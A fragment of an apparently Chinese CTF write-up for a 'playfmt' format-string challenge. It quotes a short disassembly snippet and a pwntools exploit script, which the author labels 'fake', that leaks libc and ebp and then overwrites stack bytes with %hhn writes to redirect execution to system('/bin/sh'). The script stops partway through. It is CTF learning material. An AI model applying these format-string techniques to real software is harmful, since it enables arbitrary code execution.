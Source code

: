 >  不过想想，相救应该还是能就救回来的，不就这几行操作吗
>
> ```
> .text:080485B3                 mov     ecx, [ebp-4]
> .text:080485B6                 leave
> .text:080485B7                 lea     esp, [ecx-4]
> .text:080485BA                 retn
> ```
>
> 在rop的时候再调整下栈帧，应该也行的。但是还是算了，换个方法保平安

虚假的exp

```python
#encoding=UTF-8
from pwn import *


r = process('./playfmt')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
context.log_level='debug'
context.terminal = ["tmux", "splitw", "-h"]
raw_input()
# context.log_level='debug'
r.recvuntil('Magic echo Server\n=====================')

r.sendline("#%15$p#")
r.recvuntil('#')
libc_start_main_addr = int(r.recv(10), 16) - 241
libc_start_main_off = libc.symbols['__libc_start_main']
libc_addr = libc_start_main_addr - libc_start_main_off
log.success('libc addr ===> {}'.format(hex(libc_addr)))
system_addr = libc_addr+ libc.symbols['system']
bin_sh_addr = libc_addr + libc.search('/bin/sh').next()


#得先leak出第一层ebp的值
r.sendline("aaaa%10$p")
r.recvuntil('aaaa')
ebp1 = int(r.recvline()[:-1], 16)
log.success("ebp1 point to ===> {}".format(hex(ebp1)))
num = ebp1 & 0xff  


# 第一层ebp指向下一格
p = "%" + str(num+0x4) + "c" + "%6$hhn"
r.sendline(p)
r.recvline()
#用第一层的ebp写值
#写system  system = 0xf7e193d0
p = "%" + str(0xd0) + "c" + "%10$hhn"
r.sendline(p)
r.recvline()
p = "%" + str(num+0x5) + "c" + "%6$hhn"
r.sendline(p)
r.recvline()
p = "%" + str(0x93) + "c" + "%10$hhn"
r.sendline(p)
r.recvline()
p = "%" + str(num+0x6) + "c" + "%6$hhn"
r.sendline(p)
r.recvline()
p = "%" + str(0xe1) + "c" + "%10$hhn"
r.sendline(p)
r.recvline()
```